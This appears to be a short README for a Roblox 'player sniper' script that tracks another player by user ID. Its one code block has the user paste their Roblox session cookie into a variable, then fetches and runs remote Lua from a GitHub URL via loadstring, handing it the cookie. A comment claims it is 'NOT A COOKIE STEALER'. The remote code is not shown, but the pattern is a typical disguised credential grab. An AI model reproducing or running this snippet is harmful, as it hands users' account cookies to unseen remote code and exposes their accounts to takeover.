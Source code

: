 # Requirements

* MUST HAVE USERID OF TARGET PLAYER.
* PLAYER MUST BE IN SAME EXPIREANCE TO WORK. (not place/server)

# SCRIPT :

local scriptlink = "https://raw.githubusercontent.com/Robvalt/roblox-player-sniper/refs/heads/main/sniper.luau" -- DO NOT CHANGE

local cookie = "" -- NOT A COOKIE STEALER! THIS IS USED FOR AUTH AND SECURITY WHEN GETTING THE GAME THE PLAYER IS ON. Short For Roblox Cookie.

loadstring(game:HttpGet(scriptlink))(cookie)

